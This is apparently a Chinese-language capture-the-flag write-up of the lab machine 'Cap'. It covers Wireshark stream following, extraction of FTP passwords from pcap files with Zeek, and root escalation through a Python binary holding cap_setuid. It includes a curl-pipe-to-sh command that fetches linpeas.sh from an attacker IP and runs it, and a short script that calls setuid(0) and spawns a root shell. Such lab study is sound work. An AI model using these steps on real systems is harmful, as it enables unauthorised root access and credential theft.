

# Cap

Python Capabilities 提权漏洞

本靶机漏洞工具linpeas.sh

```
21/tcp vsftpd 3.0.3
22/tcp 4ubuntu0.2
80/tcp gunicorn      //Gunicorn - Python WSGI HTTP Server fir UNIX
```


## 1.wireshark 

### Follow TCP Stream  用于将一次 TCP 通信会话中的数据内容重组，并以完整的对话形式展示

### tcp.stream eq 3 是 Wireshark 中的一个显示过滤器（display filter）：只显示 TCP 流编号为 3 的所有数据包


## 2.在ssh直接运行linpeas.sh
```
nathan@cap:~$ curl 10.10.14.92/linpeas.sh | sh 
```

https://github.com/peass-ng/PEASS-ng/releases/tag/20250701-bdcab634

### 只要 Python 拥有 cap_setuid，就能通过 os.setuid(0) 提权为 root。
抓到的内容如下：
```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
关键提权线索/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip


Linux 文件 capabilities 表示该程序在执行时可以获得特定的权限，而 不需要设置 SUID。这条信息说明：

/usr/bin/python3.8 被赋予了：
cap_setuid → 可以调用 setuid()，修改用户 ID（即提权）；

cap_net_bind_service → 可以绑定低于 1024 的端口；

+eip：
e → effective（生效中）
i → inheritable
p → permitted（有权限）

为什么这是大漏洞？
有 cap_setuid + 有 Python，就可以用以下脚本提权为 root：
```
import os

# 提权为 root（uid 0）
os.setuid(0)

# 打开一个 root shell
os.system("/bin/sh")

```


## 3. 用 Zeek 对 .pcap 包进行分析，并启用了 Zeek 的 FTP 密码提取功能
```
$ ls  //0.pcap 2.pcap

$ zeek -Cr *.pcap

$ zeek -Cr 0.cap

$ ls //0.pcap 2.pcap conn.log dilese.log ftp.log http.log packet-filter.log

$ locate ftp | grep zeek //列表

查看其中
$ less -S ftp.log   //count:nathan <hidden>未显示密码
Google:https://ippsec.rocks/  zeek

$ sudo vi ~/info.zeek  //修改passwork = F;  改为passwork = T;
$ zeek -Cr 0.pcap
$ less -S ftp.log   //count:nathan 密码
```
